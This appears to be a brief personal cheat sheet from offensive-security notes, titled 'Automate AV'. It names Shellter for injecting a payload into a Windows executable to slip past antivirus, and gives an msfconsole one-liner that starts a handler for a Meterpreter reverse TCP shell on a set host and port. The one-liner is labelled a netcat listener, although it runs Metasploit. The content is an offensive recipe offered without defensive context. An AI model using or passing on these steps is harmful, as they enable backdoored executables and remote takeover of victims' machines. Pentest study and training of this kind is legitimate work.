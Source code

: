 # Automate AV
- shellter
- CLI (follow wizard to inject payload to exe)
- one liner netcat listener 
  ``` 
  msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
  ```

   